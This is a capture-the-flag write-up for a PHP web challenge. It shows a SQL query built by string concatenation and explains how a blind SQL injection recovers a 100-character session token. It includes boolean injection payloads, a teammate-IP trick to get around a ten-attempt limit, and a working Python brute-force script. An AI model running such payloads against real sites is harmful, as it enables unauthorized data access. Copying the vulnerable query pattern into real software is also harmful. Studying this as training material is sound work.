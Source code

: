 # Beginner's Luck

Web, 989 points.

## Description

_Can you help me to win the flag ? I bet you can't .._

We were given a website along with its sourcecode \(PHP\).

## Solution

The site greets us with a page in which we can click on a "Generate" button. Everytime we click on it, a random token is generated, and the site says "Better luck next time!". We are given 10 attempts ; after those, the site says "Max Attempts Reached" and our session is reset.

![](../../.gitbook/assets/luck1.png)

Taking a look at the source, here is what we can read.

```markup
<form id="form" method="POST" action="" >

<input name="val" type="hidden" id="val">

</form>
<script type="text/javascript">

function generate_random_string(string_length){
    let random_string = '';
    let random_ascii;
    for(let i = 0; i < string_length; i++) {
        random_ascii = Math.floor((Math.random() * 25) + 97);
        random_string += String.fromCharCode(random_ascii)
    }
    return random_string
}

function generate()
{
    const input=document.getElementById("val");
    input.value=generate_random_string(100);
    document.getElementById("form").submit();
}
</script>
<div class="buttonHolder">
<input type="button" name="b1" value="Generate" onclick="generate()">
</div>
```

Every time we click on the button, our client generates the random 100-character token, and then sends it via POST. Our goal is to find the correct token.

Let's take a look at the source files we are given : [index.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/index.php), [play.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/play.php) and [reset.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/reset.php).

When we first connect to [index.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/index.php), our session is initialized and a random 100-character token is created for our session. We are not given the details of the generator function, though, but since they make our client generate random tokens on lowercase letters, we can infer the session token is the same. Right?

```php
if (!isset($_SESSION['count']))
{
    $_SESSION['count'] = 0;
    $pass = generateRandomToken(100);
    $ip = $_SERVER['REMOTE_ADDR'];
    $sql = "INSERT INTO users (ip, token) VALUES (?,?)";
    $stmt = $pdo->prepare($sql);
    $stmt->execute([$ip, $pass]);
}
```

A table `users` stores \(ip, token\) couples. Then in [play.php](https://github.com/face0xff/ctf/tree/904b614bba1214cc8a99299c8845627caed497e1/2019/Securinets_Prequals_2019/Beginners_Luck/play.php), when we send a token via POST :

```php
if (isset($_POST["val"]))
    {
    if ($_SESSION['count'] >= $max_count)
        {
        header("Location:reset.php");
        die();
        }

    $_SESSION['count']++;
    try
        {
        $sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
        $result = $conn->query($sql);
        if ($result)
            {
            $row = $result->fetch_assoc();
            }
          else
            {
            $row = false;
            }
        }

    catch(PDOException $e)
        {

        // echo $e;

        }

    if ($row)
        {
        echo "<h1>True</h1>";
        echo "<div><h4>Click <a href='flag.php'>here</a> and use the token to get your flag</h4></div>";
        }
      else
        {
        echo "<h4>Better luck next time !</h4>";
        }

    $currentValue = $_POST['val'];
    }
```

An SQL query checks if there exists an entry for our \(ip, token\). If there is, we are invited to input our token in a page called flag.php \(which is not present in the sources\), so that we can claim our flag.

The following line is prone to a very obvious SQL injection.

```php
$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
```

We don't know the exact output of the SQL request, so we cannot run a "UNION" type of SQL injection, but we do know whether it returns something or not. Indeed, when there exists such a couple \(ip, token\), the database returns at least a row and the site displays "True", "Click here and use the token to get your flag". Otherwise, it displays "Better luck next time". We can use this information to run a blind SQL injection.

Let's check by sending a pretty basic injection first in `$_POST['val']` :

```text
' OR '1'='1
```

The site returns "True". It worked! Let's try to run another injection :

```text
' OR (ip='our ip' AND length(token)=100) AND '1'='1
```

It works too: the token is 100 characters long. Good. Now we're able to write a small script that will brute-force each character individually thanks to the SUBSTRING function of MySQL.

There's an issue, though. Our session is reset and destroyed after 10 requests. We can't find a 100-character token with only 10 binary requests...

Our solution was to use two different IPs with a teammate. One person would be running the injection, but looking for the token associated to the other person's IP. Making sure that other person kept their session alive, they could then submit the token without increasing the number of attempts at all.

Our payload looks like this :

```text
' OR (ip='teammate IP' AND substring(token,[i],1)='[c]') AND '1'='1
```

Where i is between 1 and 100, and c in the lowercase letters charset. Except it was not the case. We ran the injection once and found many characters in the token that were actually not letters. We then ran the injection again with lowercase letters + digits, and it worked. Those bastards had fooled us with that javascript generator! :D

Here is the exploit in Python.

```python
import requests

url = "https://web4.ctfsecurinets.com/play.php"

injection = "' OR (ip='teammate IP' AND substring(token,%s,1)='%s') AND '1'='1"
token = ''

for i in range(1, 101):
  for b in 'abcdefghijklmnopqrstuvwxyz0123456789':
    # Resetting the session and requesting a new one, just in case.
    # The exploit would have been faster by removing this.
    requests.get(url.replace('play', 'reset'))
    s = requests.session()
    s.get(url.replace('play', 'index'))
    c = s.post(url, data={'val': injection % (i, b)}).content
    if b'>True<' in c:
      token += b
      print(i, token)
      break
```

And we get our friend's token, for instance, `qx9tiuvxniog4qfkulftatkvysgiosw4qwppqcevks1f98hujnejxp6w8dvnvsjdfytw0xicha9h9g1it7simo4lrryea99gys2q`.

Input it in flag.php and get the flag. Enjoy!

Note: the exploit could have been much faster if we tested bits in the token instead of looping through a charset. Since there are 36 characters, which is approximately 5 bits, we could have been able to retrieve a character using only 6 requests instead of 36 worst case scenario. The payload would have been more complicated though, running some conversions and stuff.

